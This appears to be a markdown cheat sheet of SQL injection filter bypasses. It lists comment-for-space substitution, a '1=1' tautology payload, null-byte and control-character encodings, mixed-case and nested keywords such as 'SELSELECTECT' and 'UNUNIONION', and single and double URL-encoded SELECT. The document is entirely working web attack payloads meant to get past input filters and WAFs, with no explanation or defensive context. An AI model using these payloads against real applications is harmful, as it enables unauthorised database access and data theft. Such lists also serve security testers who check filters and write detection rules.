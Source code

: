 # BYPASS 

## Bypass space 

```sql
/**/
-1/**/or/**/1=1-- -  (-1 or 1=1-- -)
%0d (CR)
%00 (null byte)
%0b ()
%0c

```

## Bypass select 
```sql
Select 
SeLeCt
SELECT 
SELSELECTECT
SEL/**/ECT
%00SELECT   
%53%45%4c%45%43%54                   #encode url 1l
%2553%2545%254c%2545%2543%2554       #encode url 2l

```

## Bypass union
```sql
uNion
UniOn
UNUNIONION
UNUNIONION%0dSELSELECTECT%0d

```

## Replaced Keywords
```sql
UNunionION SEselectLECT
uni%0bon se%0blect    # bypass keywords in Sql 

```


